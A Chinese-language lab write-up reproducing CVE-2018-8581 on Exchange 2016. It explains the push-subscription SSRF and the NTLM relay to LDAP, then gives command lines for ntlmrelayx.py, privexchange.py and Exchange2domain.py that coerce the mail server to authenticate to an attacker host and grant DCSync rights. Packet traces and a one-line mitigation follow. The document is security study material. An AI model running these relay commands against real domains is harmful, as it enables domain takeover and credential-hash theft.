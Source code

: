 # CVE-2018-8581

## 一、原理

Exchange服务器的推送订阅接口存在SSRF，它允许为任何用户推送订阅所指定的URL，当Exchange尝试连接用户指定的URL时候，将会用`CredentialCache.DefaultCredentials`方式进行。

其中`CredentialCache.DefaultCredentials`是以最高权限`SYSTEM`权限运行，通过SSRF发送Exchange的最高权限net NTLM给攻击者，注意SSRF回连Attack是以MAIL权限。

+ 攻击1

  在调用接口时候，使用其他用户SID来伪造攻击，从而可以达到收取他人邮件，模拟他人发送邮件。攻击者利用反射攻击回到Exchange服务器去调用接口，这个时候是最高权限的调用。

+ 攻击2

  通过NTLM Relay中`HTTP -> LDAP`协议的转变，进而攻击域控。由于Exchange角色权限具有修改writeDACL权限，可以将普通域用户赋予具有DCSync权限，从而Dump域控中的Hash信息。

## 二、测试环境

windows 2012：域控 192.168.15.161

windows 2012+Exchange 2016： 邮件服务器 192.168.15.158

windows7：攻击机 192.168.15.130

域用户：geroge (也是邮件服务的用户)

## 三、复现-攻击2

### 3.1 攻击机开启服务，进行监听

`python ntlmrelayx.py -t ladp://192.168.15.161 --escalate-user geroge`

![](.\pictures\cve_2018_8581_ntlmrelay1.PNG)

等待邮件服务器回连。

### 3.2 向邮件服务器指定推送订阅的URL

`python privexchange.py -ah 192.168.15.130 192.168.15.158 -u geroge -d park.com`

输入用户口令后得到如下结果

![](.\pictures\cve_2018_8581_ews1.PNG)

脚本运行成功。抓包分析如下：

![](.\pictures\cve_2018_8581_ews2.PNG)

攻击机利用Exchange Web Services(EWS)的推送订阅功能强制Exchange服务器向任意指定的URL进行NTLM认证，这一步由563号数据包完成。在进行推送订阅时，攻击机要向Exchange服务器进行认证（wireshark中563号数据包应该是在562号数据包前的）因此，攻击者需要一个合法的普通用户身份。696号数据包为服务器的响应数据包。

### 3.3 邮件服务器回连攻击机

推送订阅成功后，稍等片刻，攻击机监听程序即收到服务器的回连数据包

![](.\pictures\cve_2018_8581_ntlmrelay2.PNG)

但是连接失败，提示未找到LDAP客户端协议，wireshark抓包分析，

![](.\pictures\cve_2018_8581_ntlmrelay3.PNG)

4187号数据包：邮件服务器回连攻击机；

4189号数据包：攻击机提示邮件服务器使用NTLM进行认证；

4196号数据包：邮件服务器发起NTLM协商；

4202号数据包：攻击机给邮件服务器重定向响应，这里不甚明白，为何如此，使用另外一个利用脚本即可（https://github.com/Ridter/Exchange2domain）。

### 3.4 更换利用脚本

`python Exchange2domain.py -ah 192.168.15.130 -u geroge -d park.com -th 192.168.15.161 192.168.15.158`

![](.\pictures\cve_2018_8581_ntlmrelay4.png)

仍然未能成功，提示在更新ACL（access control list）时发生了错误，抓包分析,

![](.\pictures\cve_2018_8581_ntlmrelay5.png)

ntlm中继成功，攻击机仿冒“PARK\MAIL$”认证成功，然而在修改ACL时权限不够。

![](.\pictures\cve_2018_8581_ntlmrelay6.png)

完整的wireshark数据包(./resources/cve_2018_8581_exchange2domain.pcapng)

值得注意的是，其他人成功的攻击案例中在NTLM中继成功后会先Create User，然后再Modifying domain ACL。

资料中显示**Exchange所在的Exchange Windows Permissions组默认具有writeDACL权限，也就是写ACL权限**，将计算机账户MAIL添加到Exchange Windows Permissions组中并重启域控，仍然提示权限不够。

[microsoft exchange 漏洞分析][https://0kee.360.cn/blog/microsoft-exchange-cve-2018-8581/]文末提到去除Exchange默认允许修改ACL的权限后便不再有权限更改ACL，根据https://support.microsoft.com/en-gb/help/4490059/using-shared-permissions-model-to-run-exchange-server文章中提到的方法，给Exchange Trusted Subsystem添加WriteDACL权限，重新攻击，即可成功。

![](./pictures/cve-2018-8581-success.PNG)

## 四、复现-攻击1

原理类似，利用ntlm中继攻击邮件服务器，同样没有成功。

## 五、漏洞防御

去除Exchange默认允许修改ACL的权限

## 参考资料

[microsoft exchange 漏洞分析][https://0kee.360.cn/blog/microsoft-exchange-cve-2018-8581/]





[https://0kee.360.cn/blog/microsoft-exchange-cve-2018-8581/]: